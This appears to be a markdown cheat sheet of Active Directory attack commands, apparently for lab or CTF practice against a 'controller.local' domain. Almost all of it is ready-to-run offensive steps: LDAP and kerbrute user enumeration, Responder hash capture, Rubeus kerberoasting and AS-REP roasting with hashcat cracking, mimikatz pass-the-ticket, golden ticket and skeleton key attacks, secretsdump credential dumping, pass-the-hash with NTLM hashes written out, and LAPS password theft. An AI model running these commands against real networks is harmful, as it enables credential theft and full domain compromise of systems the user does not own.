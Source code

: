 # Top Keys #
  1. Make sure you have added the domain to your /etc/hosts file
  2. You can search the hash using hashcat https://hashcat.net/wiki/doku.php?id=example_hashes 
  3. grep -i (ignore case helpful when searching output for password or hashes)


# LDAP #
1. Basic Search
 
  a. ldapsearch -h $ip -p 389 -x -s base
  
2. Null creds to try and get list of usernames

  a. ldapsearch -x -h $ip -D '' -w '' -b "DC=controller,DC=local"
  
  b. Can clean up output with grep also search for passwords! Remember grep case sensistive grep -i (ignore case)
  

# Responder #
1. Start up responder

  a. sudo responder -I tun0
  
  b. Call request either smb or website (download a file from your python server)
  
  c. Capture the NTLM hash you get

# Kerberute #
  1. Enumerate Users from Kali
  
     a ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
 
 # Rubeus #
  1. Harvest ticket caches
  
    a Rubeus.exe harvest /interval:30
   
  2. Brute force Password1 against all users
  
    a Rubeus.exe brute /password:Password1 /noticket
    
  3. Kerberoast -dump hashes of any kerberoastable users
  
    a Rubeus.exe kerberoast
   
    b Copy hash to hash.txr watch out for spaces
    
    c hashcat -m 13100 -a 0 hash.txt rockyou.txt
    
    
# ASREP Roasting # 
  1. Rubeus 
  
    a. rubeus.exe asreproast
    
    b Get all accounts that do not require pre authentication
    
    c Insert 23$ after $krb5asrep$ so for proper hash formating
    
    d hashcat -m 18200 hash.txt rockyou.txt
    
  2. Impacket GetNPUsers.py
  
    a. sudo python3 /opt/impacket/GetNPUsers.py CONTROLLER.local/ -usersfile users.txt -format hashcat
    
    b.  hashcat -m 18200 hash.txt rockyou.txt
 
 # mimikatz #
 1. ALWAYS RUN AS ADMIN
 2. Pass the Ticket
    a privilege::debug
   
    b sekurlsa::tickets /export (this will export all the tickets into your current directory)
    
    c Choose a ticket with admin (or user you want)
    
    d kerberos::ptt <ticket file name>
	
    e exit mimi
	
    f klist (show that you have now changed)
	
 3. Gold and Silver Tickets
    a run as admin
	
    b privilege::debug
	
    c lsadump::lsa /inject /name:krbtgt (this will dump the hash and security identifier krbtgt can be changed to other account names like sqlservice  or bob)
	
    d Gold ticket ->
	i. Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
	
 4. Mimikatz skeleton
	
		a. run as admin
	
		b. privilege::debug
	
		c. misc::skeleton
	
		d. Exit and you can read shares with default creds mimikatz
			The default credentials will be: "mimikatz"			
			example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password			
      example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1!
# Secrets Dump #
1. Impacket Secrets Dump if you have creds of admin or backup account
	
  a. sudo python3 /opt/impacket/examples/secretsdump.py controller.local/admin:password@controller.local
	
  b. You will get the NTLM hashes 
  
 #Remote In #
  1. evil-winrm -i $ip -u user -p password
  
 # Priv Esc #
 1. If LAPS is in program files
	
    a. ldapsearch -x -h $ip -D user@controller.local -w password -b "DC=controller,DC=local"  "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
	
    b. Powershell schedule task to run rev shell with admin priv?

  # Lateral Movements #

 1. Pass the Hash - You have NTLM creds
	On Kali -> pth-winexe -U bob%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2
eb3b9f05c425e //$ip cmd

2. Over Pass the Hash
	a. Right click a program like notepad and "run as different user"
	
	b. After authneticated that users NTLM hash has now been stored
	
	c. run mimikatz with admin priv 
	
	d. sekurlsa::pth /user:bob /domain:controller.local /ntlm:e2b475c11da2a0748290d
87aa966c327 /run:Powershell.exe
	
	e. net use //dc3  (generate TGT)
	
	f. .\PsExec.exe \\dc3 cmd.exe  (you are now on the dc machine)

	
DCOM
	
	

